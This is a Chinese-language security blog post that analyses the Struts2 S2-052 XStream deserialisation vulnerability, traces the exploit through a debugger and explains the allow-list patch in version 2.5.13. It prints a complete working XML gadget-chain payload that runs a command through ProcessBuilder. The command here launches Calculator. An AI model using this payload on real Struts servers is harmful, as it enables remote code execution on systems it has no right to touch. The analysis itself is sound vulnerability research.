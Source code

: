 ```yaml
---
layout: post  
title: "s2-052 漏洞解析和补丁分析"  
date: 2017-09-08
description: "java漏洞"  
tag: java漏洞
---
```

##  问题复现  
9月5号，在北京出差的时候，就听到群里大师傅们在讨论s2-052，当时根据官方链接，作者说的很清楚，在XStreamHandler函数toObject中,在进行xml转object的时候，没有任何的防御措施，导致可以直接反序列化。由于酒店的网太烂了，maven依赖一直下载不下来，回到公司后一切顺利地可以进行。本来当网就想调试分析一下的，但是关于XStream的用法，可以参考[http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&utm_medium=referral](http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&utm_medium=referral),可以这么理解，XStream这个东西就是为了将xml和java对象之间转换的工具。至于为什么要将java对象转换成xml，答案是为了方便存储，和writeObject类似的效果，只不过writeObject将对象保存为一个反序列化格式的文件, XStream将对象保存为xml格式。  
找到[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)，将其下载下来，根据is_win师傅给的生成payload当时，我们传入两个参数，分别为ImageIO, /Applications/Calculator.app/Contents/MacOS/Calculator。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-8/11959949.jpg)
对marshalsec项目下断点分析，可以看到最后形成的poc 如下:  
```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```
很熟悉的格式，我们可以反推，当调用xstream.fromXML进行解析xml的时候，该对象会有字段ProcessBuilder，最后反序列化的时候大概会是这个效果。
```
new ProcessBuilder("Applications/Calculator.app/Contents/MacOS/Calculator").start()
```
跟进ProcessBuilder类，发现了commond字段
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-8/60983788.jpg)
那么其和xml的中的节点
```
<command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
```
可以匹配起来了，至此可以弹出计算器。  
跟踪原作者的提示，我在toObject处下断点。整个堆栈调试情况如下:  
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/21020967.jpg)
可以清晰的看到，在ContentTypeInterceptor类中，首先判断了请求body的长度，并且将其交由XStreamHandler做toObject处理。
继续跟进到xstream.fromXML 这个函数，以便于我们深刻理解xstream到底是怎么将一个xml解析的。跟进XStream类中的fromXML，发现其调用了unmarshal函数，经过层层跟进我们最终来到了MapConverter类中的unmarshal函数，
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/49876782.jpg)
Xstream将xml数据解析并放到一个map里面。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/82546916.jpg)
某处关键代码如下  
```
protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context, Map map, Map target) {
        reader.moveDown();
        Object key = this.readItem(reader, context, map);
        reader.moveUp();
        reader.moveDown();
        Object value = this.readItem(reader, context, map);
        reader.moveUp();
        target.put(key, value);
    }
```
经过测试，在readItem的时候弹出了计算器，跟进这个函数。其中代码入下  
```
 protected Object readItem(HierarchicalStreamReader reader, UnmarshallingContext context, Object current) {
        Class type = HierarchicalStreams.readClassType(reader, this.mapper());
        return context.convertAnother(current, type);
    }
```  
其中HierarchicalStreams.readClassType(reader, this.mapper())为根据字符jdk.nashorn.internal.objects.NativeString获取到其具体的对象。
 经过持续的跟进，发现callReadResolve函数入下  
 ![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/92268293.jpg)
 java反射机制。整个操作流程细节比较复杂，总结起来如下:
 xml先提取节点，解析到map
 迭代器继续解析节点
 反射机制执行恶意代码
 
## 补丁分析  
我调试struts2-rest-plugin插件的版本为2.5.12(影响版本参考[https://struts.apache.org/docs/s2-052.html](https://struts.apache.org/docs/s2-052.html))，我将依赖改成版本不受影响的2.5.13，这里把两个版本的源码diff一下。发现在createXStream的时候做了一些安全防护。其中新增了一个函数
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/29393266.jpg)
[http://x-stream.github.io/security.html](http://x-stream.github.io/security.html)。其中这段描述很清楚
XStream提供了一些TypePermission实现，允许任何类型或任何类型，以允许原始类型及其对应，空值，数组类型，实现通过常规或通配符表达式匹配类型的名称，一个用于反转权限。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/60892122.jpg)
添加了xml可以反序列化的类，当解析到jdk.nashorn.internal.objects.NativeString的时候，由于没通过permission.allows的时候，无法正常return,直接抛出一个异常，终止整个过程。  
```
 public Class realClass(String elementName) {
        Class type = super.realClass(elementName);

        for(int i = 0; i < this.permissions.size(); ++i) {
            TypePermission permission = (TypePermission)this.permissions.get(i);
            if(permission.allows(type)) {
                return type;
            }
        }

        throw new ForbiddenClassException(type);
    }
}
```  
后面也就不会去解析之行了。至此，整个过程分析完毕。

##  参考资料   
http://x-stream.github.io/security.html
##  拓展学习  
http://www.freebuf.com/vuls/147017.html

